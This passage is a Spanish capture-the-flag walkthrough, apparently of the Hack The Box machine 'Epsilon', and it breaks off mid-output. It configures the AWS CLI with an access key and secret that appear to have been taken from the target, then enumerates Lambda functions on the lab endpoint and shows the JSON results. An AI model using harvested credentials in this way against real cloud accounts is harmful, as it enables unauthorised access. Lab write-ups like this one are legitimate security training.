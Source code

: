 Según el readme de awscli hay que configurar previamente y ahí podremos meter estos datos

```bash
aws configure


AWS Access Key ID [None]: AQLA5M37BDN6FJP76TDC
AWS Secret Access Key [None]: OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A
Default region name [None]: us-east-1
Default output format [None]: 
```

Una vez configurado vamos a lanzar para ver la lista de procesos con endpoint_url http://cloud.epsilon.htb  (recordar que debe de estar /etc/host el cloud.epsilon.htb)

```bash
aws lambda list-functions --endpoint-url=http://cloud.epsilon.htb
{
    "Functions": [
        {
            "FunctionName": "costume_shop_v1",
            "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:costume_shop_v1",
            "Runtime": "python3.7",
            "Role": "arn:aws:iam::123456789012:role/service-role/dev",
            "Handler": "my-function.handler",
            "CodeSize": 478,
            "Description": "",
            "Timeout": 3,
            "LastModified": "2022-06-30T06:51:34.083+0000",
            "CodeSha256": "IoEBWYw6Ka2HfSTEAYEOSnERX7pq0IIVH5eHBBXEeSw=",
            "Version": "$LATEST",
            "VpcConfig": {},
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "01728ab1-232d-4d11-87dd-29315a83fdc2",
            "State": "Active",
            "LastUpdateStatus": "Successful",
            "PackageType": "Zip"
        }
    ]
}
```

Apuntamos en evidencias el 

"CodeSha256": "IoEBWYw6Ka2HfSTEAYEOSnERX7pq0IIVH5eHBBXEeSw=" 
"Role": "arn:aws:iam::123456789012:role/service-role/dev" y function:costume_shop_v1",

Vamos ahora a ver la funcion costume_shop_v1 entiendo que tendrá dentro un zip porque pone algo de packagetype

```bash
aws lambda get-function --function-name=costume_shop_v1 --endpoint-url http://cloud.epsilon.htb
{
    "Configuration": {
        "FunctionName": "costume_shop_v1",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:costume_shop_v1",
        "Runtime": "python3.7",
        "Role": "arn:aws:iam::123456789012:role/service-role/dev",
        "Handler": "my-function.handler",
        "CodeSize": 478,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2022-06-30T06:51:34.083+0000",
        "CodeSha256": "IoEBWYw6Ka2HfSTEAYEOSnERX7pq0IIVH5eHBBXEeSw=",
        "Version": "$LATEST",
        "VpcConfig": {},
```
